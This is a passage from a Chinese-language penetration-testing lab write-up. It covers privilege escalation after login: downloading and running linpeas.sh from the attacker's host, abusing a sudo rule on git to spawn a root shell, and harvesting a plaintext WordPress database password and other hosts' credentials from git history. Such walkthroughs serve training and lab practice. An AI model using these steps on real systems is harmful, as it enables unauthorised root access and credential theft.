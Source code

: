 登录成功

提权

```armasm
cp /usr/share/peass/linpeas/linpeas.sh .
python3 -m http.server 80
wget http://192.168.119.5/linpeas.sh
chmod a+x ./linpeas.sh
./linpeas.sh
发现sudo -l
 (ALL) NOPASSWD: /usr/bin/git
```

发现数据库账号和密码

```armasm
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 www-data www-data 2495 Sep 27 11:31 /srv/www/wordpress/wp-config.php                                                                                                                      
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'DanielKeyboard3311' );
```

发现git目录

```armasm
╔══════════╣ Analyzing Github Files (limit 70)
                                                                                                                            
drwxr----- 8 root root 4096 Sep 27 14:26 /srv/www/wordpress/.git
```

GTFOBins查看git的sudo提权

```armasm
sudo git -p help config
!/bin/bash
whoami
获得root权限
```

到git目录查看

```armasm
cd /srv/www/wordpress/
git status
git log
git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
```

查看git信息，获得其他主机账号密码

```armasm
git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
```

## 24.3 访问内部网络
